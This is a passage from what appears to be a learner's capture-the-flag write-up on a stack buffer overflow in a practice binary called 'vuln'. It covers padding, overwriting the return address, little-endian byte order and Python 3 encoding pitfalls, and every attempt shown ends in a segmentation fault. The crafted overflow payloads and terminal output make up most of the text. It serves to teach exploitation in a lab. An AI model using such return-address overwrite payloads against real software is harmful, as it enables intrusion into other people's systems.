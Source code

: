 
Back to the application we can confirm that we can write the address of the instructor

```
❯ ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
zsh: segmentation fault (core dumped)  ./vuln

```
now the address changed to 0x42424242 <-BBBB

But if we pass the address we want to go: 080491f6

```
❯ ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA080491f6
Okay, time to return... Fingers Crossed... Jumping to 0x34303830
zsh: segmentation fault (core dumped)  ./vuln
```
Output shows not the correct  address we want to go and this is because in memory it stored filped over\
So **instead of 0x080491f6 in little endian 0xf6910408 and byte by byte would be the proper format eg "\xf6\x91\x04\x08"**

In python also is not representing the way it shout, there's this ö character which smells bad
 
 ```
 "A" * (32+4+4+4)+"\xf6\x91\x04\x08"
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAö\x91\x04\x08'
```

```
❯ ./vuln
Please enter your string: 
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAö\x91\x04\x08'
Okay, time to return... Fingers Crossed... Jumping to 0x5cb6c341
zsh: segmentation fault (core dumped)  ./vuln
```
and wrong address again Jumping to 0x5cb6c341

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08

```
❯ python3 -c "print('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 c3b6 c291  AAAAAAAAAAAA....
00000030: 0408 0a  

 c3b6 c291 0408 0a  
```

this looks a bit strange of what we passed: c3b6 
```
❯ python3 -c "print('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x91c2b6c3
zsh: done                              python3 -c  | 
zsh: segmentation fault (core dumped)  ./vuln
```
Wrong address again Jumping to 0x91c2b6c3\
